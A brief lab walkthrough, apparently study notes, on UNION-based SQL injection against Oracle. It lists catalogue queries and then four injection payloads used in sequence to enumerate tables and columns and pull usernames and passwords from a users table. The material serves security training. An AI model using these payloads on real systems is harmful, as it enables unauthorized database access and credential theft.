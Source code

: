# Listing the contents of an Oracle database

On Oracle, you can find the same information as follows:

You can list tables by querying `all_tables`
```bash
SELECT * FROM all_tables
```
You can list columns by querying `all_tab_columns`

```bash
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

# Lab
1) I determined number of columns and confirmed both column can hold string data
```bash
' UNION SELECT 'abc','def' FROM dual--
```
2) I used the following payload to retrieve the list of tables in the database and I found table named: `USERS_FIRSTQ`
```bash
' UNION SELECT table_name,NULL FROM all_tables--
```
3) Then I used this payload to retrieve the details of the columns in the table and I found `USERNAME_FNJWVV` and `PASSWORD_LMQXOK`
```bash
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_FIRSTQ'--
```
4) Then I used this payload with column name and table name to retrieve the usernames and passwords for all users:
```bash
' UNION SELECT USERNAME_FNJWVV, PASSWORD_LMQXOK FROM USERS_FIRSTQ--
```

## Perfect explanation on you tube
https://youtu.be/ZbwIbIq5-eE
